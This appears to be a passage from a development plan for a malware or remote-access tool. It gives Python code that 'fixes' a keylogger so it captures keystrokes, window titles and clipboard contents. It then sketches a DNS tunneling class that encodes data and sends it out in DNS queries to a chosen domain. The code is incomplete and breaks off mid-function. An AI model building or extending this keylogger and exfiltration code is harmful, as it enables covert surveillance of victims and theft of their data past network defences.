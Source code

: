 ### 4.2 Fix Keylogger
**File:** `Configuration/st_win_keylogger.py`
**Current Issues:**
- Misses keystrokes
- Buffer overflows
- No clipboard capture
**Fix:**
```python
import threading
from pynput import keyboard
from queue import Queue

class ImprovedKeylogger:
    def __init__(self):
        self.buffer = Queue(maxsize=10000)
        self.listener = None
        
    def on_press(self, key):
        timestamp = datetime.now()
        window_title = get_active_window()
        
        self.buffer.put({
            'time': timestamp,
            'window': window_title,
            'key': str(key),
            'clipboard': get_clipboard()
        })
    
    def start(self):
        self.listener = keyboard.Listener(on_press=self.on_press)
        self.listener.start()
    
    def dump(self):
        logs = []
        while not self.buffer.empty():
            logs.append(self.buffer.get())
        return logs
```

### 4.3 DNS Tunneling (Not Implemented)
**File:** Create new `PyLib/dns_tunnel.py`
**Implementation:**
```python
import dns.resolver
import base64

class DNSTunnel:
    def __init__(self, domain):
        self.domain = domain
        self.chunk_size = 63  # Max DNS label size
        
    def send_data(self, data):
        # 1. Compress and encode
        compressed = zlib.compress(data.encode())
        encoded = base64.b32encode(compressed).decode().lower()
        
        # 2. Split into chunks
        chunks = [encoded[i:i+self.chunk_size] 
                 for i in range(0, len(encoded), self.chunk_size)]
        
        # 3. Send as DNS queries
        for i, chunk in enumerate(chunks):
            query = f"{i}.{chunk}.{self.domain}"
```